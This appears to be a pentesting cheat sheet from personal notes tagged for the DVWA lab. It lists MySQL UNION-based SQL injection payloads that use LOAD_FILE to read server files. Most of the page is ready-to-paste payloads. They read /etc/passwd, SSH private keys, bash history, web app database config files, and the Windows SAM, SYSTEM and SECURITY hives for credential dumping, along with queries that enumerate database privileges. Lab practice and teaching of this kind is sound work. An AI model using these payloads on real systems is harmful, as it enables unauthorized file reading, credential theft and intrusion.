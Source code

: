 # 03 - OS Enumeration

Search Tag: #sql-injection #union #enumeration-and-discovery #dvwa

## 3.1 - Conditions

1. The DB user must have **FILE** and **SELECT** privileges.
2. **Note:** Not all files are readable unless the current user is `root@<IP>` (e.g. `root@localhost`). You'll notice that you can't fetch SSH credentials which is normal due to security reasons.

## 3.2 - Enumerate Database User Privileges

```sql
' UNION SELECT NULL, GROUP_CONCAT(user, '->', 'FILE', '->', File_priv) FROM mysql.user#

' UNION SELECT NULL, GROUP_CONCAT(user, '->', 'FILE', '->', File_priv) FROM mysql.user WHERE File_priv = 'Y' AND user = 'dvwa'#

' UNION SELECT NULL, GROUP_CONCAT(PRIVILEGE_TYPE, '->', GRANTEE, '->', IS_GRANTABLE, '<br>') FROM information_schema.USER_PRIVILEGES#

' UNION SELECT NULL, GROUP_CONCAT(PRIVILEGE_TYPE, '->', GRANTEE, '->', IS_GRANTABLE, '<br>') FROM information_schema.USER_PRIVILEGES WHERE PRIVILEGE_TYPE LIKE 'SELECT' OR PRIVILEGE_TYPE OR 'FILE' AND GRANTEE LIKE "'dvwa'%"#
```

## 3.3 - Basic Information

### 3.3.1 - Linux

- Enumerate hostname

```sql
' UNION SELECT NULL, LOAD_FILE('/etc/hostname')#
```

- Enumerate user accounts

```sql
' UNION SELECT NULL, LOAD_FILE('/etc/passwd')#
```

- Enumerate user groups

```sql
' UNION SELECT NULL, LOAD_FILE('/etc/group')#
```

- Local IPv4 address

```sql
' UNION SELECT NULL, LOAD_FILE('/etc/network/interfaces')#

' UNION SELECT NULL, LOAD_FILE('/etc/sysconfig/network')#

' UNION SELECT NULL, LOAD_FILE('/etc/networks')#
```

- DNS resolve and nameserver IPs

```sql
' UNION SELECT NULL, LOAD_FILE('/etc/resolv.conf')#

' UNION SELECT NULL, LOAD_FILE('/etc/hosts')#
```

- Environment variables may contain **sensitive information**. You never know that sometimes the sysadmins can be lazy sometimes.

```sql
' UNION SELECT NULL, LOAD_FILE('/etc/profile')#

' UNION SELECT NULL, LOAD_FILE('/etc/bash.bashrc')#

' UNION SELECT NULL, LOAD_FILE('/home/<username>/.bash_profile')#

' UNION SELECT NULL, LOAD_FILE('/root/.bash_profile')#

' UNION SELECT NULL, LOAD_FILE('/home/<username>/.bashrc')#

' UNION SELECT NULL, LOAD_FILE('/root/.bashrc')#
```

- Enumerate installed packages that will give you an idea of what services are installed.

```sql
' UNION SELECT NULL, LOAD_FILE('/var/log/dpkg.log')#

' UNION SELECT NULL, LOAD_FILE('/var/log/yum.log')#
```

- Enumerate kernel version

```sql
' UNION SELECT NULL, LOAD_FILE('/etc/lsb-release')#

' UNION SELECT NULL, LOAD_FILE('/etc/os-release')#

' UNION SELECT NULL, LOAD_FILE('/proc/version')#
```

### 3.3.2 - Windows

```sql
' UNION SELECT NULL, LOAD_FILE('c:/windows/win.ini')#

' UNION SELECT NULL, LOAD_FILE('c:/xampp/php/php.ini')#
```

- DNS resolve and nameserver IPs

```sql
' UNION SELECT NULL, LOAD_FILE('c:/Windows/system32/drivers/etc/hosts')#
```

## 3.4 - Credentials

### 3.4.1 - Linux

- Retrieve SSH keys

```sql
' UNION SELECT NULL, LOAD_FILE('/home/<username>/.ssh/id_rsa')#

' UNION SELECT NULL, LOAD_FILE('/root/.ssh/id_rsa')#
```

- Retrieve database config file. You have to lookup of what web technology it's using such as, a **content management system (CMS)** like wordpress. Find the absolute path of the [[Credentials#^bc9e6e|database config file]] after enumeration phase for the web root directory.

```sql
' UNION SELECT NULL, LOAD_FILE('/var/www/html/dvwa/config.php')#
```

- Retrieve history commands. You can find more in the [[Credentials|privilege escalation credentials]] section.

```sql
' UNION SELECT NULL, LOAD_FILE('/home/<username>/.ssh/.bash_history')#

' UNION SELECT NULL, LOAD_FILE('/root/.ssh/.bash_history')#
```

### 3.4.2 - Windows

```sql
' UNION SELECT NULL, LOAD_FILE('C:/Windows/Repair/SAM')#

' UNION SELECT NULL, LOAD_FILE('C:/Windows/Repair/SYSTEM')#

' UNION SELECT NULL, LOAD_FILE('C:/Windows/System32/config/security')#
           
' UNION SELECT NULL, LOAD_FILE('C:/Windows/System32/config/system')#

' UNION SELECT NULL, LOAD_FILE('C:/Windows/System32/config/sam')#
```

## 3.5 - Privilege Escalation

### 3.5.1 - Linux

- CronJobs may contain backup files that is worth **harvesting the data**. Moreover, there is a possible attack vector to spawn a callback shell. Be on the lookout.

```sql
' UNION SELECT NULL, LOAD_FILE('/etc/crontab')#
```

## 3.5 - Config Files

### 3.5.1 - Linux

```sql
' UNION SELECT NULL, LOAD_FILE('/etc/ssh/sshd_config')#
```

## 3.6 - Hardware

- Check uptime

```sql
' UNION SELECT NULL, LOAD_FILE('/proc/uptime')#
```

- Enumerate mounted drives and network shares.

```sql
' UNION SELECT NULL, LOAD_FILE('/etc/fstab')#
```

- Enumerate CPU cores

```sql
' UNION SELECT NULL, LOAD_FILE('/proc/cpuinfo')#
```

---
## References

### Linux

#### Enumeration and Discovery

- [[Tactics && Techniques && Procedures (TTPs) Phases/Post Exploitation/Shell Is The Beginning/Enumeration and Discovery/Linux/Users|Users]]

- [[Environment Variables]]

- [[Log Files]]

- [[System and Kernel Version]]

#### Enumeration and Discovery

- [[Cron Job]]

#### Credentials Access and Dumping

- [[Credentials]]

### Windows

#### Enumeration and Discovery

- [[Tactics && Techniques && Procedures (TTPs) Phases/Post Exploitation/Shell Is The Beginning/Enumeration and Discovery/Windows/Host/Networking/IP Address|IP Addresses]]

#### Privilege Escalation

- [[Tactics && Techniques && Procedures (TTPs) Phases/Post Exploitation/Shell Is The Beginning/Credential Access and Dumping/Windows/Host/Registry/Hashdump/01 - Manual|Manual Hashdump]]